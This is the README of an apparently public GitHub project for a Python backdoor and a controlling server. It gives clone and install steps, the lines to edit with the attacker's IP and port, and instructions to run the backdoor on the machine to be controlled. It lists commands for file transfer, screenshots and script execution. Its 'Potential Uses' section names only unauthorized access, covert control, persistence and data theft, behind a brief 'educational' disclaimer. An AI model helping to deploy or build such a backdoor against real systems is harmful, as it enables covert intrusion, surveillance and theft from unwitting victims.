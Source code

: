 # Backdoor-And-Server 💻🔗

- Welcome to the Backdoor-And-Server project, a powerful yet educational server-client Python application that enables you to remotely execute commands on the server from the backdoor. 

## Warning 🚨
**Please note that this project is intended for educational and research purposes only. Use it responsibly and only on devices and systems for which you have explicit authorization. The author of this project is not responsible for any misuse or illegal activities involving this software.**

## Table of Contents

1. [Installation Process](#installation-process-) 📥
2. [Requirements](#requirements-%EF%B8%8F) 🛠️
3. [Pre-Execution Setup](#pre-execution-%EF%B8%8F) ⏮️
4. [Execution](#execution-%EF%B8%8F) 🏃‍♂️
5. [Available Commands](#available-commands-) 💻
6. [Potential Uses](#potential-uses-) 💡

## Installation Process 📥

- Let's get you started with Backdoor-And-Server. First, clone the repository and navigate to the `Backdoor-And-Server` directory:

```bash
$ git clone https://github.com/Advaidv121/Backdoor-And-Server && cd Backdoor-And-Server
```

## Requirements 🛠️

Next, install the requirements using pip3 with the following instructions:

For **Server.py**
```
$ pip3 install pyautogui
```
For **Backdoor.py**
```
$ pip3 install tqdm
```

## Pre Execution ⏮️

- On line number **137** of **server.py** file
```
137. sock.bind(('xx.xxx.xx.xx',xxxx)) #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```
- On line number **153** of **backdoor.py** file
```
153. s.connect(('xx.xxx.xx.xx',xxxx))  #replace 'xx.xxx.xx.xx' with server ip and xxxx with port number
```

## Execution 🏃‍♂️

- Run the backdoor.py script on the machine you want to control:
```
python backdoor.py
```
- Run the server.py script on the machine from which you want to control the server:
```
python server.py
```
- This will establish a connection with the server, and you can start sending commands to be executed on the server.🛜

## Available Commands 💡

- Here's a table of the commands you can run on the server from the client:

| Command                | Description                                                     |
|------------------------|-----------------------------------------------------------------|
| `ls`                   | List the files and directories in the current directory.        |
| `cd <foldername>`      | Change the current directory to the specified folder.           |
| `cd ..`                | Navigate to the parent directory.                               |
| `pwd`                  | Print the current working directory.                            |
| `cat`                  | Display the contents of a text file.                            |
| `python1 <filename>`   | Execute a Python 1.x script with the specified filename.        |
| `python3 <filename>`   | Execute a Python 3.x script with the specified filename.        |
| `copy <filename>`      | Copy a file from the client to the server.                      |
| `bye`                  | Disconnect from the server.                                     |
| `scrst`                | Command description not provided.                               |
| `send <filename>`      | Send a file to the server.                                      |
| `help`                 | Display a list of available commands.                           |



## Potential Uses 🌟

- Backdoor and server can be used for:

-Unauthorized Access: Malicious actors use backdoors to gain unauthorized access to a computer system, network, or device. This unauthorized access can lead to data theft, surveillance, or further exploitation.

-Remote Control: Backdoors provide remote control over a compromised system. Attackers can manipulate the victim's computer, executing commands and actions without the user's knowledge or consent.

-Persistence: Backdoors are often used to maintain a persistent presence within a compromised network or system. This allows attackers to maintain access even if initial security flaws are patched.

-Data Theft: Backdoors enable the exfiltration of sensitive data, such as personal information, financial records, or intellectual property, which can then be misused or sold.
